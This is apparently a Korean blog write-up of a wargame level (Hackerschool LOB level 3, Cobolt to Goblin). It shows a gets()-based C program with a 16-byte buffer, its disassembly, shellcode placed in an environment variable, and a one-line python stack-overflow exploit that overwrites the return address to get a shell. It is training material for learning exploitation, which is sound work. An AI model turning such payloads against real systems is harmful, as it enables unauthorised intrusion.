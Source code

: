 ```yaml
---
date: '2022-10-13'
before : '2022-10-12'
after : '2022-10-14'
title: '시스템 해킹(19) : FTZ LOB LEVEL 3'
categories: ['C-SEC', 'KOR','pwn']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에


이번 문제도 굉장히 쉽다. 그냥 똑같다고 보면 될 것 같다. FTZ 복습 개념인건가...?


### 1. Level 3 : Cobolt -> Goblin


코드가 매우 짧다. 
```
int main()
{
    char buffer[16];
    gets(buffer);
    printf("%s\n", buffer);
}
```
어셈블리도 마찬가지로 딱히 특이점은 없다.
```
0x80483f8 <main>:       push   %ebp
0x80483f9 <main+1>:     mov    %ebp,%esp
0x80483fb <main+3>:     sub    %esp,16
0x80483fe <main+6>:     lea    %eax,[%ebp-16]
0x8048401 <main+9>:     push   %eax
0x8048402 <main+10>:    call   0x804830c <gets>
0x8048407 <main+15>:    add    %esp,4
0x804840a <main+18>:    lea    %eax,[%ebp-16]
0x804840d <main+21>:    push   %eax
0x804840e <main+22>:    push   0x8048470
0x8048413 <main+27>:    call   0x804833c <printf>
0x8048418 <main+32>:    add    %esp,8
0x804841b <main+35>:    leave
0x804841c <main+36>:    ret
0x804841d <main+37>:    nop
0x804841e <main+38>:    nop
0x804841f <main+39>:    nop
```

평소 하던것처럼 쉽게쉽게 EGG 등록하고 주소를 확인한 후 쉘코드를 짜자.


아, gets()함수이니 ("변수"; cat) | ./goblin 형식으로 쓰는것도 잊지 말자.

```
0xbffffeca
```

익스플로잇 :
```
(python -c 'print "A"*40+"\xca\xfe\xff\xbf"'; cat) | ./attackme
```
hackers proof

---
## Source

- 해커스쿨 FTZ
- Me!
